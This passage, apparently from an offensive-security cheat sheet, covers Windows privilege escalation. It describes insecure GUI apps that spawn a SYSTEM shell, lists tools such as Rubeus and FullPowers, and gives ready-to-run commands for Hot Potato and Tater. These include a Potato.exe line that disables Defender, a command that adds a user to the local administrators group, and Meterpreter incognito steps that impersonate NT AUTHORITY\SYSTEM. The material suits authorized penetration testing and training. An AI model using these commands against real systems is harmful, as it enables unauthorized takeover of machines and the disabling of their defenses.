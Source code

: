 
## **Insecure GUI apps**

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" \(Windows + F1\), search for "command prompt", click on "Click to open Command Prompt"

---

## **Abusing privileges**

Tools

```bat
- Rubeus.exe 

- Priv checklist
https://github.com/gtworek/Priv2Admin

- Enable all privs for service or network account
https://github.com/itm4n/FullPowers
```

### Hot potato

- [https://foxglovesecurity.com/2016/01/16/hot-potato/](https://foxglovesecurity.com/2016/01/16/hot-potato/)

exe : [Potato.exe](https://github.com/foxglovesec/Potato)

```bat
  Potato.exe -ip -cmd [cmd to run] -disable_exhaust true -disable_defender true
```

powershell : [Tater.ps1](https://github.com/Kevin-Robertson/Tater)

```bat
Invoke-Tater -Command "net localgroup administrators user /add"
```

### RottenPotato

**Token Impersonation**

- [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato) 
- [https://github.com/breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

Incognito (Meterpreter)

```bat
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```
TokenManipulation

